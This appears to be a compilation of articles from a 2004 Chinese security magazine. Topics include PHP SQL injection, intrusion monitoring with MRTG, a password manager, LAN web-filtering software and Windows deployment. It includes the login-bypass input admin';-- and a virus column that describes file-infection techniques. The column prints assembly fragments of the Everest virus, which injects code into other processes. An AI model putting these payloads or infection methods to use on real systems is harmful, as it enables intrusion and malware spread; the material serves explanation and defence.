我们假定 $Username 和 $Password 被用在一个 SQL 命令中。如下：

```sql
"SELECT * FROM UserTable WHERE Username='$Username' AND Password='$Password'"
```

应用程序将检查 SQL 命令是否返回记录并记录它。很多站点有成千上万的用户。假如我们在用户名一栏里写 `admin';--`，在密码那一栏里写一些无用的东西，SQL 命令将执行如下：

```sql
"SELECT * FROM UserTable WHERE Username='admin';--' AND Password='dfgd'"
```

在这个例子中，数据库将不能检查密码也能返回一个有效用户名的记录。

避免这些可以通过检查 `--` 和 `'` 在用户名里的输入，并且不理这些请求。最好的办法就是避开这些字符串，像对待其他字符一样对待 `--` 和 `'`。

好了，常见的几个 PHP 的注意事项就说完了。其实网络的 Web 服务器是非常容易暴露给攻击者的，假如 PHP 代码到处是漏洞的话，就是有再好的防火墙也是没用的。所以，希望大家在编写程序的时候能够真正正视 PHP 的安全问题！

---

## 用 MRTG 在 IIS 6.0 上实现入侵检测

难度等级：低
前置知识：无
文／图 sleky

MRTG（Multi Router Traffic Grapher）是一个跨平台的监控网络链路流量负载的工具软件，目前它可以运行在大多数 Unix 系统和 Windows NT 之上。它通过 SNMP 协议从设备得到设备的流量信息，并将流量负载以包含 PNG 格式图形的 HTML 文档方式显示给用户，以非常直观的形式显示流量负载。

或许你还不知道，MRTG 还是一个有效的入侵检测工具。大家都知道，入侵者扫描与破坏后都能生成一些异常的网络流量，而人们在一般情况下是意识不到的。但是，MRTG 却能通过图形化的形式给管理员提供入侵的信息，并可以查出数周之前的入侵信息，以备管理员参考。

### 攻击行为对服务器造成的信息

- 1. 攻击者使用 CGI 漏洞扫描器对潜在的 CGI 漏洞脚本进行扫描时，HTTP 404 Not Found errors 的记录会增长。
- 2. 攻击者尝试暴力破解服务器上的账户，HTTP 401 Authorization Required errors 的记录会增长。
- 3. 一种新的蠕虫出现，某一个特定的协议的流量会增长。
- 4. 蠕虫通过僵尸主机，攻击其他的服务器，出外的流量增加，并增大 CPU 的负荷。
- 5. 入侵者尝试 SQL injection 攻击，HTTP 500 Server Errors 记录会增长。
- 6. 垃圾邮件发送者在网络上寻找中继 SMTP 服务器来发送垃圾邮件，会造成 SMTP 和 DNS lookups 流量大增，同时造成 CPU 负荷增大。
- 7. 攻击者进行 DDOS 攻击，会造成 ICMP 流量、TCP 连接、虚假的 IP、多播广播流量大增，造成浪费大量的带宽。

看完上面我们可以总结出，攻击者要入侵必然会影响到服务器的这些资源：CPU、RAM、磁盘空间、网络连接和带宽。入侵者还有可能对服务器建立进程后门，开放端口，还对自己的人侵行为进行伪装掩盖，避免遭到入侵检测系统的监视。

### 攻击者使用以下的方法避免被检测

- 1. 探测扫描很长时间后，才进行真正的入侵进攻。
- 2. 从多个主机进行攻击，避免单一的主机记录。
- 3. 尽量避免入侵造成的 CPU、RAM 和驱动器的负荷。
- 4. 利用管理员无人职守时入侵，在周末或者节假日发起攻击。

对于 IIS 6，我们需要监视的是下列的信息：
- 1. 网络流量，包括带宽、数据包、连接的数量等。
- 2. 网络协议的异常错误。
- 3. 网站的内外流量，包括用户的权限设置、外部请求的错误流量等。
- 4. 线程和进程。

### 在 Windows 2003 下安装 MRTG

在使用 MRTG 之前，你需要在服务器里安装 SNMP 服务。具体步骤如下：从控制面板中选择添加/删除程序，点击添加和删除 Windows 组件，在管理和监视工具中的详细资料里就可以找到简单网络管理协议，即可安装。

安装成功后，你需要立刻安全配置一下。我们都知道，SNMP 在网络上决不是一个安全的协议，你可以通过 `http://support.microsoft.com/?kbid=324261` 这个连接来具体了解。但是我们只是在本地使用 SNMP，还是建议你通过防火墙屏蔽 SNMP 的 161 与 162 端口和使用 IPSec，并且要配置为 obscure community string。在管理工具中，在服务中选择安全，设为只读访问。尽管 community string 安全问题不多，但是你还是要避免使用 community string 为只读访问。

MRTG 是一个用 Perl 编写的程序。你还要安装 ActivePerl 来解决支持脚本的问题。下载最新的 MRTG 可以到 `http://people.ee.ethz.ch/~oetiker/webtools/mrtg/pub/`，注意要选择 .zip 的文件下载。本文所使用的版本请到 `http://securityfocus.com/microsoft/images/burnett_MRTG_files.zip` 下载。

把 MRTG 解压到 `C:\Program Files\MRTG` 目录下。在你的 Inetpub 目录下为 MRTG 建立一个子目录。为了安全，不要建立在 wwwroot 目录下。然后，使用 IIS 建立一个 MRTG 的新站点。如果可能的话，最好能为 MRTG 站点配置一个主机头和一个独立的 IP，也可以在一个已存在的目录下为 MRTG 站点建立一个合法的虚拟目录，也能达到同样的目的。

注意，在新建立的 MRTG 站点上不要运行可执行的脚本，只提供只读访问。在 NTFS 下，要注意对用户的权限的设置。如果可能的话，最好对指定 MRTG 站点的 IP 来选择特定的主机。

现在，我们就可以把配置文件放到 `C:\Program Files\MRTG\Bin` 下了，并把 `index.html` 文件拷贝到 `\Inetpub\MRTG` 目录下。下面我们来测试一下，在命令提示符下输入：
`C:\Program Files\MRTG\Bin>perl mrtg mrtg.cfg`

如果一切正常的话，在你的 MRTG 站点下就有了一些配置文件。如果安装失败，你可以回顾一下你安装的步骤是否有错误，并参考 MRTG 的参考手册。

### 具体配置 SNMP 计数器

尽管微软提供了 SNMP 的计数器，但是我们发现它对一些应用程序支持有些问题，而 MRTG 却能从很多的应用程序中得到消息。但我们通过 Windows Management Instrumentation（WMI）也能得到包括所有的计数器的性能信息。同 SNMP 不同的是，微软在 WMI 上下了很大的时间和金钱。比如：想得到关于线程和进程的信息，我们可以使用以下的脚本轻易实现：

```vbscript
Set oWService=GetObject("winmgmts:\\.\localhost\root\cimv2")
Set colItems=oWService.ExecQuery("SELECT * FROM Win32_PerfFormattedData_PerfOS_System",,48)
For Each Item in colItems
    Param1=Param1 + Item.Processes
    Param2=Param2 + Item.Threads
    Uptime=Item.SystemUptime
Next

WScript.Echo Param1
WScript.Echo Param2
WScript.Echo Uptime & " seconds"
WScript.Echo "LocalHost"
```

我还遇到的另一个问题是通过 SNMP 或 WMI 获取详细或自定义的 Web 统计信息。为了解决这个问题，我使用了微软的 LogParser 工具，从一个简单的批处理文件中运行自定义查询：

```bat
@for /f "tokens=1,2,3,4* delims=/ " %%i in ('date /t') do @set year=%%l&& @set month=%%j&& @set day=%%k
@set logfile=c:\windows\system32\LogFiles\%lex%%YEAR:~2,2%/month%%/day%.log
@if Exist %logfile% (
  @logparser "SELECT COUNT(*) FROM %logfile% WHERE (sc-status>= 400 AND sc-status<500)
  AND TO_TIMESTAMP(date, time) > SUB(SYSTEM_TIMESTAMP(), TO_TIMESTAMP('5','m'))" -q
  @logparser "SELECT COUNT(*) FROM %logfile% WHERE (sc-status>= 500 AND sc-status<600)
  AND TO_TIMESTAMP(date, time) > SUB(SYSTEM_TIMESTAMP(), TO_TIMESTAMP('5','m'))" -q
) ELSE (
  @Echo %logfile%
  @Echo 0
)
@Echo Unknown
@Echo %1
```

因为微软的日志记录工具也非常强大，和 MRTG 的计数器配合使用，再加上免费的入侵检测系统 Snort，效果会更好。

### 最后

在你自定义的计数器完成后，通过图形化状况表就可以轻易地找出入侵者了。如果我们还想进一步了解关于 Windows 2003 server 中的 SNMP 相关信息，可以登录 `http://snmpboy.msft.net` 进行查阅。

---

蝴蝶：小编我的密码可绝对安全哦！什么东西都有，而且还定期更换，做网络安全的嘛！自己的安全要做的！可是，最近的记性不太好，4个 QQ 号，10 多个邮箱，无数个论坛 ID 和密码……实在记不住了！怎么办？拿出我的私人工具包！找出一个 mypassword 装上！这个世界清静了……

## 私人密码保护秘籍 —— mypassword

文／tfeng

《黑防》论坛上很多朋友抱怨自己的密码总是被别人盗取，而且一旦一个密码被盗，带来的连锁效应就是其它一系列密码被盗取。其实现代网虫们需要记住的密码太多：网络上的一两个 QQ 密码、三四个邮箱密码、五六个论坛密码，另外还有什么开机密码、管理密码、数据库密码……生活中还有非常多的银行账户密码、电话密码等等等等，想到头都大！

稍微有点安全常识的朋友都知道不能够将密码设置得过于简单，而且不能什么地方都使用一个密码，所以朋友们常常在一个地方使用一个密码，天长日久就很容易自己忘记，或者为了不忘记密码而每个密码都相同，这样带来的后果很显然：要么是因为密码太多忘记了，要么是因为密码一样被别人盗取所有账户！为了解决这样的问题，今天给大家介绍一款非常实用的私人密码管理软件——mypassword！

mypassword 是由天剑写的，有兴趣的朋友可以到 `http://mypasswd.com` 上下载，它是一个绿色软件，无需安装就能直接运行，而且它的体积也很小，适合拨号上网的小猫下载，它主要有以下功能：

- 1. 能够方便的将用户的所有密码存储起来，并生成可以保存在磁盘、U盘上的密码文件，方便携带和使用。
- 2. 它支持密码文件上传和下载功能，可以将自己的密码文件方便地上传到自己的邮箱里，然后再要使用的时候下载下来。
- 3. 使用特殊的“两级分类”来存储密码，保证密码的安全性和完整性。
- 4. 如果存储的是 Web 密码，可以直接连接相应 URL。
- 5. 每个密码数据库都可以设置特定的用户名和密码，软件会自动生成私有密钥，密码数据库会根据私有密钥进行加密，保证密码的库安全性，相对用户来讲，只要记住一个用户名和密码就能方便地管理所有的密码！
- 6. 它能帮你生成自己看了都觉得陌生的高复杂性、高安全性密码，提高密码的抗攻击能力。

下面我就来看看具体怎么使用它！首先在软件左方“我的密码”框下单击右键，选择“新增类型”，生成新的密码文件，然后在右方的框体中右键选择“新增项目”，按照下方的提示填上“项目名称”、“用户名”、“密码”、“连接地址”、“备注”这些项目，选择“保存”完成密码的保存，其它密码也可以用同样的方式添加。

在按照个人需要设置好密码文件后，下一步我们为密码库设置唯一的用户名和密码。选择“工具”中的“设置用户名/密码”，系统会要求你输入自己的用户名和密码，然后选择“确定”保存信息，一定要记住这个信息哦！要不然以后可再打不开密码库！

再使用“工具”中的“随机生成密码”生成安全度很高的密码供我们使用。可以选择密码的组件包含数字、字母、特殊字符，很多朋友长期使用的生日日期密码早就该丢进垃圾桶里了！

对网虫来说，最好的保存资料的方式就是把资料放在网络上，mypassword 就想到了这一点，为广大的网虫提供了很大的方便：选择“工具”下的“密码信息上传”，在“密码数据上传到：”的列表下选择“邮件服务器”，在下方的“SMTP 服务器地址”、“邮箱地址”中填上相应地址，如果发邮件需要认证，那还需要填上用户名和密码，填好后选择“上载”就可以将密码文件传到邮箱了；要下载密码信息，只需要选择“取密码信息”，并按上面的方法逆操作就行。

总的来讲，mypassword 是一款非常不错的私人密码保护软件，长期在互联网上翱翔的朋友可以试试用它来管理纷繁复杂的密码信息和生活中的账户信息，相信这对恶意攻击能起到一定的防护作用，也能让你的大脑记忆组织得到休息！

### 什么是账户（account）？

对计算机或网络的一种访问形式，含有特定的用户名(username)、口令(password)，对系统进行登录时，系统会根据用户名校验密码，当用户名和密码相符时，允许进入系统，并被分配给相应的权限。

以 Windows 2000 的登录为例，首先启动 winlogon.exe 程序，接着启动 Lsass.exe（该程序用于本地安全验证），这就可以在屏幕上看到登录对话框。按下〈Ctrl〉+〈Alt〉+〈Del〉之后，输入用户名和密码，Windows 便会开始查找 SAM（Security Account Manager）数据库内的数据，该文件位于 `WINNT\System32\Config\`，读取相关数据后开始进行校验，通过后进入系统。在 Windows 2000 刚出来的时候，有个输入法漏洞，利用它可以轻松地建立自己的账户，从而登录到系统。另外，顺带提醒一下，注意系统账户的安全，尽量使用复杂而足够长的口令。

蝴蝶：时代的发展使网络安全不再是神秘的技术，任何人只要稍微懂点电脑都可以学习安全技术，所以，或许在你身边就能找到很多懂点安全技术的朋友。如果你是网络管理员，如何在上班时间内让这些有一定“武功”的同事不能做和工作无关的事呢？这恐怕就得费点心思了，下面我们就给大家带来一个功能非常强大的网络管理软件——

- 难度等级：高
- 适合对象：网络管理员

## Websoft 网络防护盾
文／图 chinadata

Websoft 防护盾是采用网络侦听方式安装在整个局域网内的任何一台电脑上的，通过对整个网络的 Web 访问数据的侦听，截获不良网址访问请求并中断该请求，从而实现对 Web 访问的控制。网络管理员可以在一台电脑上实现对整个网络 Web 访问的全面控制。

“Websoft 防护盾”主要由控制管理模块和日志查询模块组成。对于 Web 访问的集中控制由控制管理模块完成，对被控用户访问记录的分析浏览由日志查询模块完成。控制管理模块采用了网络数据包捕获和伪装技术，具有较强的稳定性。日志处理采用了 Microsoft Access 2000 数据库支持，从而使得用户可以对日志进行更为方便的自定义操作。

安装的过程就不介绍了，安装之后，启动系统，进行参数设置，设置好网卡、IP 地址、日志文件（你不会看见了参数设置就晕吧？Websoft 防护盾的参数设置是非常简单的，大多数参数都可以直接用默认值）。

接下来就让系统来帮我们完成吧！点击“获取网络信息操作”，系统就会帮我们找到整个企业局域网中的主机信息，并且将检测出所有当前处于开机状态并已经连接到网络上的电脑的 IP 地址和网卡信息，检测出来的所有电脑将会显示在界面右侧的电脑列表中。这个功能很实用，网管不用亲自一台一台地去盘查计算机的开关机情况（图 1）。

紧接着，你可以对这些电脑进行分组命名。分组命名——随你所欲！当然，分得越清晰，就越有利于你的管理工作。分组之后就进入关键性的部分了，要进行网络管理的朋友可要瞪大眼睛！既然要对主机的访问进行控制，我们就要设置它的控制规则：进行网址和关键字的过滤，点击工具栏的“控制策略制定”按钮，即会弹出图 2 所示的窗口。

点击“新建”按钮，选择弹出菜单中的“空白策略”，即可新建立一个没有任何控制设置的空策略（图 3）；如果你选择的是弹出菜单中的“从策略导入”，系统将会要求你指定一个已经存在的策略，并将该策略的所有设置复制到新建的策略中。

然后，将刚才所建的策略应用到网络的主机（图 4），这有点像 Win2000 里面的 IP 策略吧，使用起来更是得心应手！选择刚才设置的策略，将它应用到网络中的主机中，启动“访问控制”，你就可以坐着看他们在干什么了。哈哈！一切都在你的掌握之中，它（主机）现在就不能随心所欲了！想进一步查看“他们”访问的网站，启动“日志查询”即可，是不是一切都如你所愿（图 5）？

除了“Websoft 防护盾”帮你管理计算机之外，你可以对局域网中的任何一台计算机发送信息，点击“主机操作”菜单中的“发送信息”输入要发送的内容，点“确定”就 OK 了，图 6 所示就是财务部其中一台主机收到的警告信息！

Websoft 防护盾最主要的功能就在于它能对网站和关键字进行过滤，同时又可以向局域网中的任何一台主机发送信息。如果多次发送，同事还不听劝，那么还可以用最狠的一招，那就是“无影脚”，直接将他踢出局域网，他就不可以上网了（呵呵~~！够狠吧~~）。同时在学校也非常有用，对学生健康地接触网络非常有益。不愧是网管员的福音软件。

---

### 传统与另类：电脑病毒感染技术分析

- 难度等级：中
- 适合对象：病毒技术爱好者
- 前置知识：熟悉基本病毒原理，了解 Win32 汇编

**socket：** 大家好！很高兴能在 2004 年的第一期杂志里和大家见面！我是《黑客防线》新来的编辑，以后请大家多多指教，我主要负责“CVC 病毒专栏”、“编程解析”和“新兵训练营”这三个版块。技术方面主攻编程方面的网络安全知识，对常见的高级语言比较熟悉，有一定反病毒经验，以后大家有这两方面的问题可以直接给我来信 (socket@hacker.com.cn)，我会尽量给大家满意的答复！同时，对版块内容有什么看法也可以提出来，我会及时调整，希望我们共同进步！（wtf：这小子刚来编辑部就带了一大堆杀毒软件都查不出来的病毒！弄得我们每天都提心吊胆！机器坏了准是他的病毒在做怪！）

本期的 CVC 病毒专栏带来了对病毒感染方式的创新分析，很有新意，相信对喜欢病毒的朋友一定有很大的帮助。当然，我们的目的不是想让大家学会如何去使用病毒危害网络，而是为了让大家在了解这样的技术基础上，研究出更好的防护技术！还是那句话：“在攻与防的对立统一中寻求突破”！

文／Vancheen[CVC]

病毒感染技术可谓五花八门，我们这里只是对其做一个大概介绍，并对一些应用不多但比较有潜力的技术加以详细分析。在本文中我们将以 Win32 病毒为主，但也提到了一些 DOS 病毒技术，由于涉及面比较广，错误在所难免，请大家多多包涵。

### 传统技术

这里说的传统，指的是比较典型、应用比较多的感染方式，而不是普通意义上“老掉牙”的那种传统。一般传统的病毒感染技术分成下面几类：

#### 1. 后缀式感染
这是 DOS 以及 Windows 下文件型病毒最常用的感染方式，也是原来非常流行的一种感染方式。相信很多研究病毒的朋友都是从这种技术起步的吧！这种方式是非常简单的，只要把病毒体缀在宿主文件最后，再修改程序入口，注意一下对齐，就行了。实际上这个方式也是最简单易行的，深得 VXer 喜爱，因为它简单，但是却非常适合对病毒进行复杂的加密变形！

值得一提的是，国内的病毒爱好者和一些“汇编高手”，非常喜欢对 PE 文件进行加节，其实个人认为这不是好的技术。原因就是操作复杂，而且不一定总能成功，很可能没有地方加一个 Section。简单而有效的方法是把病毒体直接缀在最后一个节的后面，然后改最后节的相关属性，并注意一下 Image 和 File 的对齐就行了。顺便提一下，Windows 98 检查对齐不是很严格，Windows 2000 就非常严格了。

#### 2. 散落式感染
英文叫 cavity，就是把病毒体切成小块分散插入到宿主的空隙中，病毒执行时再把它们组合起来。似乎人们从 CIH 才开始认识这种方式，事实上这种方式早已有之，一些 DOS 病毒就用这种方式，只是没有引起人们注意——人们通常只推崇引起轰动的东西。

PE 文件由于结构关系，天然就有很多空隙，适合一个小病毒存在，而 DOS 可执行文件则没有什么 Section 的概念，也没有什么天然空隙，似乎看起来不可能插入。其实不然，由于编译器的缘故，文件里很可能有一些用于保存数据的连续的 0，这些空间只在运行时才有用，和程序的初始化没关系。所以，病毒可以统计这些连续的 0，如果发现这样的空间足够大，就可以把病毒块放在里面，运行时把病毒块摘出，然后重新把那块内存清零就可以了——这种技术在 DOS 时代算是比较高级的技术，实现起来比较困难。

这种感染方式还有衍生。比如不利用宿主已有的空隙，而是往宿主代码里硬生生地挖洞，把病毒代码插进去，病毒执行后再把洞填回去。这样的好处是可以把病毒分解成很小的碎片，这样就不容易被发现，缺点是实现有些复杂，效果未必比利用已有空隙好。

#### 3. 捆绑式感染
这种方式木马比较常用。就是用病毒自身替代宿主文件，而把宿主作为数据存储在病毒体内。这种方式有明显的不足，就是宿主增大太多，启动速度太慢。我们亲爱的 Nimda 把这种方式发扬光大了。

#### 4. 伴侣式感染
这种方式 DOS 下的病毒和 Windows 下的木马都常用。就是用病毒自身替代宿主，把宿主改个文件名，病毒启动后再启动宿主。这个和捆绑式有相似之处，不足之处更是一样，而且还多了一个，就是病毒文件被拷贝到别的机器以后，就没有了宿主文件，无法执行正常功能了，这样就很容易被用户发现。所以，这种方式比较适合感染安装在 “Program Files” 里的一般不会被拷贝的应用程序。

### 另类感染

这里所说的另类，可能在很多人眼里是很普通的方法。但这些方法并没有得到广泛应用，所以称之为另类。

#### 1. DLL 链接式感染
具体实现很简单，就是把病毒作为一个 DLL 文件，然后在宿主体内加入一个导入此 DLL 的 Import 项。这样在宿主启动时，系统会自动装载病毒。

这种方法的好处是明显的，就是宿主启动比较迅速，因为病毒和普通 DLL 没什么区别。而且如果用户敢删除病毒文件，那么被感染的文件就执行不了了。
- 不足之处：
    1. 不能总感染，不一定有地方加一个 Import 项。
    2. 一旦宿主被拷贝到别的机器，那么宿主就无法运行了。

#### 2. 胶解式感染
实现起来比较残忍——改掉 PE 文件的结构，对其进行“重组”。这个想法我最早实现在我的病毒 Win32.Loicer（W32.Cervan）中。

这种感染技术的思路如下：Windows 装载进程时，首先要把文件映射到内存，然后装载 Import 表里导入的 DLL，填充 API 地址，最后启动进程。当进程调用 API 时，会使用 `call tttttt` 指令，`tttttt` 处是一条间接跳转指令 `jmp [xxxx]`，此处 `xxxx` 地址存放的就是系统填充的 API 地址。

如果我们把 Import 表搬个地方，就可以控制填充过程。具体步骤：
1. 创建一个新的 Import 表，引入病毒需要的 API（如 LoadLibrary）。
2. 将原 Import 表拷贝到病毒体内。
3. 修改 PE 头，使 Import Entry 指向新的 Import 表。
4. 修改原 Import 各 API 地址，使宿主调用 API 时跳入病毒代码（完成 EPO）。

这种方式是基本无法恢复的，因为原始 PE 结构已被破坏，但宿主功能完好无损。这种技术可以推广到加密技术，将 Import 表甚至整个 PE 文件重新组装并加密。

#### 3. 寄居蟹式感染／传播
这是 CVC 兄弟 PKXP 的发明，应用在 Everest 病毒中。核心思想是：自己不传播，让其他病毒传播自己。

```c
// Everest 病毒部分代码
@pushsz "Everest" // 压字符串
push FALSE
push NULL
call CreateMutex
call GetLastError // 避免运行多个实例
cmp eax, ERROR_ALREADY_EXISTS // 已经运行，结束
jz ExitVirus
```

初始化完成后，它会枚举所有进程，寻找其他病毒进程。找到后对病毒进程进行“手术”：

```asm
; 写入病毒进程的远程代码片段
_VirtualProtect = dword ptr $-4
call eax ; 设虚拟内存属性，方便写入

@pushsz '123' ; cbWritten
push 6
call RCSJump
push 12345678h ; 跳转代码
_NewGetModuleFileNameA = dword ptr $-4
ret

RCSJump:
    push esi
    push -1
    mov eax, 12345678h
    _WriteProcessMemory = dword ptr $-4
    call eax ; 写入跳转代码
    ret 4
```

Everest 使用 `QueueUserAPC` 将远程代码插入病毒进程。其作用是替换病毒进程的 `GetModuleFileName` 函数头。当其他病毒试图获取自身文件名进行传播时，返回的是 Everest 的文件名。这样，当其他病毒向外发送“自身”时，实际上发送的是 Everest。

### 结束语

我们不能整天局限于添加新节之类的古老技术。要想在病毒方面有所突破，就要有创新。只要肯思考，中国人的新技术、新思想绝对不比老外差！

---

## （上接第63页）

- 1. 命令行中输入 `DCPROMO` 命令。向导会询问“这是域中的最后一台域控制器”吗？如果不是，删除活动目录后它将变成成员服务器；如果是最后一台，则变成独立服务器。注意：删除域控制器前应备份或解密所有 EFS 数据，否则将永远无法访问。
- 2. 在“网络凭据”向导中，指定一个具有企业特权的用户账户。
- 3. 输入活动目录卸载后本地管理员账户的密码。
- 4. 执行降级工作，等待成功或错误消息。

笔者发现，如果域控制器使用时间过长，删除活动目录时经常会发生意外错误，这是微软需要改进的地方。

**后记：** 本文实践性非常强，休息之余建议亲自动手试一下。若觉得不过瘾，可查阅专门介绍 Windows 2000 活动目录的相关书籍进行钻研。

## Windows 2003 自动安装功能的全面透析

刘流：安装系统是每个计算机能正常运行的基础条件，如何才能在庞大的计算机群里非常快速地安装好每个机器的系统？当然不能选择一台一台手工安装。其实，从 Windows 2000 以来，微软就推出了自己的自动安装功能，到 Win2003 的时候这个功能更是强大，本文就是从这个角度入手，和大家一起探讨了这方面的基本功能。

- 难度等级：初级
- 前置知识：批处理相关知识

从 Windows 2000 开始，Windows 系统自带的自动安装功能就为广大的网络管理员提供了自由发挥的平台，Windows 2003 不仅兼容了以前的功能，还在此基础上作了某些补充。下面就让我们一起来看看如何将这个功能发挥得淋漓尽致！

我们知道，在安装 Windows 2003 的过程中，要不断地提示我们输入一些东西。如果只有一台计算机，我们或许会忍受，但是对于一个管理着很多台计算机的网络管理员来说，这简直是个折磨！在这种情况下，我们可以充分享受 Windows 2003 提供的无人值守功能，自动完成系统的安装。

### 自动安装的种类

1. **使用应答文件的安装**：预先把需要在安装过程中输入的内容写入应答文件中，由应答文件来代替手工输入，安装程序根据应答文件提供的内容自动配置各种信息，省却了不少的麻烦。
2. **使用 Sysprep 工具**：通过这个工具，可以将安装好的 Windows 2003 复制到另外一块硬盘上，然后再将这个硬盘安装到另一台计算机上就可以了。这个工具就存放在 Windows 2003 的安装光盘上。
3. **自动安装服务**：可以远程启动网络上的计算机，并在其上安装操作系统。在 Windows 2000 操作系统中，通过此种方式，只能部署专业版。Windows 2003 在此基础上作了增强的支持，不仅可以通过这种方式部署服务器版，还可以部署 XP 操作系统。

### 无人应答文件的创建

1. **使用 Windows Server 2003 安装管理器来生成应答文件**：这就需要用到 Windows Server 2003 的安装光盘中的 `\support\tools\deploy.cab` 文件，将其拷贝到硬盘的某一文件夹中就会自动解压，执行其中的 `setupmgr.exe` 文件，即可按照安装管理器的提示一步一步做下去。
2. **用手工定制**：这种方法比较笨重，就算是非常熟练的网络管理员，也不见得能够熟练掌握，笔者不建议使用，有兴趣的读者可以查阅一下相关的资料。

当用户选择应答文件时，必须使用命令行的方式启动新的安装，在命令行中输入如下内容：

`winnt32.exe /u:<answer file> /s:<source file>`

向导界面如图 1 所示。

在本实验中，我选择了安装时从光盘上读取源文件，无人值守文件存放于 A 盘上。这里，我写了一个 `unattend.bat` 的批处理文件，通过执行它，就可以进行无人值守安装。程序示例如下：

```batch
@rem SetupMgrStart
@echo off
set answerfile=a:\unattend.txt
set udffile=a:\unattend.udb
set computername=%1
set sourcefile=I:\I386
if "%computername%"=="" goto USAGE
I:\I386\winnt32 /s:%sourcefile% /unattend:%answerfile% /udf:%computername%,%udffile% /makelocalsource
goto FINISHED
:USAGE
echo.
echo 用法: unattend <computername>
:FINISHED
```

这里的 `/udf` 参数指明“安装”用来指定“唯一数据库（UDB）”。`/makelocalsource` 参数指示“安装程序”将所有的安装源文件复制到本地硬盘上。当从光盘安装时，使用 `/makelocalsource` 可以在以后安装中没有光盘时，为计算机提供安装文件。关于这个命令的详细参数设置，请参阅安装光盘中 `winnt32.exe` 的帮助。

### 使用系统准备工具进行复制安装

这个工具的主要功能是：在每台目标计算机首次重新启动时为其分配一个唯一的安全标识码，将原来需要 60 分钟左右的安装过程缩短为 5 分钟左右，大大节省了用户的等待时间。一般来说，`sysprep` 工具经常在下列两种情况下使用：

1. **磁盘复制**：通过 `sysprep` 将安装系统所需要的内容复制到其他硬盘上，并且修改本地计算机的安全标识码（SID），以使其在每台计算机上唯一；
2. **自动运行最小化安装程序**：它提供一种快捷的图形用户界面安装方式，大大地缩短安装的时间。

这个文件也是存在于 `\support\tools\deploy.cab` 中，读者可以自己试一下。

如果要进行最小化安装界面，我们就要执行 `setupmgr.exe` 程序，在如图 2 所示的界面中做出选择。接下来将生成的 `sysprep.inf` 文件拷贝到 `sysprep.exe` 所在的文件夹中，双击 `sysprep.exe` 就可以进行微型安装了。

上面说的这两种安装方式，是 Windows 2003 自带的工具实现的。我们通过借助第三方提供的工具，也可以实现自动安装，比较著名的有 Norton 的 Ghost、PowerQuest 的 DriveCopy 和 DriveImage，以及相应的 SID 改变工具：PowerQuest 的 SID Changer 和 Ghost Software 的 Ghost Walker，读者如果有兴趣的话，可以到网上下载下来动手实验一下。

**后记**

其实很多东西没有人教的时候可能会觉得高深莫测，但是自己一旦实践了就会觉得其实很简单。看了本文之后，是不是觉得自动安装很简单呢？嘿嘿，可千万别这样认为，不动手试一下，可能永远体会不到其中的滋味。文中没有介绍远程安装，关于这方面的内容，你可以参考一下 MCSE 认证方面的书籍，上面讲得比较详细。

## 移动用户的新时代——脱机文件夹

- 难度等级：初级
- 前置知识：无
- 文／吴丽娜

脱机文件夹的功能在 Windows 2000 中推出以来，似乎并没有受到人们的重视，主要是因为熟知这个内容的人比较少。那脱机文件夹究竟有什么用呢？脱机文件夹主要是针对笔记本用户，因为笔记本用户与企业网络要经常的时断时连，而很多数据都存储在公司的文件服务器上，这样难免要不停的手动对刷新过的数据进行更新，增加了很多的麻烦。相反，如果使用了脱机文件夹，这些问题都能迎刃而解！

Win 2000 可以在脱机工作时处理网络文件（例如，当在便携式计算机上工作时），可以共享网络文件或文件夹（包括程序文件和 Web 页），这样的功能就给我们的实际网络运用提供非常大的方便：通过将你的计算机设置为使用“脱机文件”，你可以将计算机与网络断开，而文件仍可以在你的计算机上使用，就像仍与网络连接着一样！

我们来看一下具体情况：脱机文件夹的组成包括文件服务器端和客户端，如图 1 所示。

先来看一下文件服务器端的配置方法：在服务器上创建一个文件夹，名字为 SmilerFile，将其设为共享，并将缓存选项打开，如图 2 所示。

这里，我们为了使文件进行自动缓存，可以选用自动缓存文件，这样每次关机或者注销客户端的时候，客户端就会自动进行同步，保存修改过的数据。

再来看一下客户端的配置方法：先如图 3 所示，打开如图 4 所示的对话框，然后应用。这里，根据你要脱机的文件的大小，可以调节缓存的大小。这样就可以在桌面上创建一个“脱机文件”的快捷方式。

当然了，一定要注意你在文件服务器上文件的安全性和私密性，这当然要涉及到 NTFS 访问权限的控制和网络共享权限的控制，你可以参考一下笔者在第 10 期上的文章《NTFS 全面解决 Windows 2000 的安全方案》，至于剩下的工作，我说的再好，也不如你动手一试。

如果你不再需要将某一个文件脱机，可以在图 4 中的“删除文件”按钮上点击一下，在打开的对话框中，将其删除即可。如果你不需要使用同步，可以在图 4 中的“高级”按钮上点击一下，然后选择“不允许计算机脱机工作”就可以了。

如果你在图 2 中选择的是手动同步文档，你就需要不定时的进行手动同步，如图 3 所示，选择“同步”，然后在弹出的对话框（图 6）中进行同步就可以了。

“脱机文件的快捷方式”的图标，下面要以 UNC 路径访问文件服务器，如本例中为 `\\smiler`，在通过验证以后，找到在文件服务器上授予的共享文件夹，名称为 SmilerFile，在上面创建一个文件，名为 test.doc，一定要确保用户具有创建文件的权限。现在，你可以双击“脱机文件的快捷方式”图标，打开之后，就会出现如图 5 所示的情形，非常的奇妙！

还有一个问题需要说明一下，如果有多个用户同时在修改文件服务器上的同一个文件，到底以哪一个修改为准。这里， Windows 2000 使用 TimeStamp（时间戳）的方法，哪个用户修改完毕的时间最晚，就以谁的为准。

呵呵，说到这里，基本上把脱机文件夹的方方面面都涉及到了，剩下的工作就看你的了。这样完成以后，当你编辑 test.doc 时，就如同在本机上编辑效果一样，不信的话可以将网络连接断开试一下。

**后记**

> 本文的实战性很强，不过相信一般的读者看完之后应该在理解上不会出现什么问题。不过，眼动不如嘴动，嘴动不如手动，手动还不如快快行动，呵呵，这个实验可不能不做啊，赶紧用自己的电脑试一下吧。

## 七步构建安全的 Serv-U FTP 服务器

刘流：现在，网络上采用 Serv-U FTP 作为自己 FTP 服务器的人越来越多，但大多采用了默认的配置，或者只在表面上加强了一下其安全性，这样的机器能不存在安全隐患吗？！那到底怎样才能加强 Serv-U FTP 服务器的安全性呢？

- **难度等级：** 初级
- **前置知识：** Serv-U FTP 服务器的基本配置

昨晚在外面逛的时候，一个朋友打电话给我，说他在家配置了一台 FTP 服务器准备作为网友间的数据共享服务器，叫我过去帮他看一下服务器的安全性，我刚好闲着，所以也就顺便过去看看。

服务器的操作系统是 WIN2K SERVER，磁盘格式是 NTFS，没有装 IIS。提供 FTP 服务的软件是 Serv-U 最新的 4.108 版，一些较为基本的配置都已经配置完毕，只待确认安全性如何之后即可投入使用。

